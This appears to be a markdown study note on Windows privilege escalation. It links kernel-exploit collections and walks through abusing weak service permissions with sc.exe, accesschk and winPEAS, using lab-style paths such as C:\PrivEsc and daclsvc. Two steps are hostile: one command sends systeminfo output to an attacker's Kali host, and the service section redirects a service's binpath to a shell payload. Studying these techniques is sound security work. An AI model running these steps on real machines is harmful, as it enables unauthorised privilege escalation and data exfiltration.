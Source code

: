 ## Kernel Exploit:
- Use this particular tool called **Windows Exploit Suggester**
- Firstly get the info of system by running `systeminfo` command and copy that to any file and name it with extension `.txt`
- Now run the tool using the database
- Here look for the kernel releated exploits.
- Happy hacking!!
- Windows Exploit Suggester: https://github.com/bitsadmin/wesng
- Precompiled Kernel Exploit: https://github.com/SecWiki/windows-kernel-exploits
- Watson: https://github.com/rasta-mouse/Watson

- To store systeminfo file at my attacker machine through reverse shell: systeminfo > \\<Kali_IP>\tools\systeminfo.txt
- To run the Windows Exploit Suggester tool(for Priv Esc exploit): python wes.py /tools/systeminfo.txt -i 'Elevation of Privilege' --exploits-only | more

## Service Exploits:

- Service Commands:
    - Query the configuration of a service: `sc.exe qc <name>`
    - Query the current status of a service: `sc.exe query <name>`
    - Modify a configuration option of a service: `sc.exe config <name> <option>= <value>
    - start/stop a service: `net start/stop <name>`

### Insecure service permissions:
- Here we'll try to identify services with some insecure permissions and then we can try to exploit them.
- Here we can make use of `winpeas.exe servicesinfo` command and we can see the services which are quite helpful
- One interesting part of output is like this,
```

    daclsvc(DACL Service)["C:\Program Files\DACL Service\daclservice.exe"] - Manual - Stopped
    YOU CAN MODIFY THIS SERVICE: ChangeConfig

```
- But to obtain more information we can use a tool called **accesschk** which is by Microsoft, run it as follows `accesschk.exe /accepteula -uwcqv <current-user> <service>`, output is,
```
C:\PrivEsc>accesschk.exe /accepteula -uwcqv user daclsvc
daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL

```
- Note that the `"user"` account has the permission to change the service config (SERVICE_CHANGE_CONFIG).
- But the main part is `service_change_config` where we can change configuration of the service.
- Run `sc qc <service>` and then note the Binary_path_name(this can be also called as `binpath`), which we're going to change(evil smile)
- No create a playload which is of shell type and transfer it to the target machine
- Syntax to change the config, `sc config <service> <option>="<value>"`
- Now `sc config daclsvc binpath="<path>"` and now start the service `sc start daclsvc`
- `Potential Rabbit Hole:` If you can change a service configuration but cannot stop/start the service, you may not be able to escalate privileges!
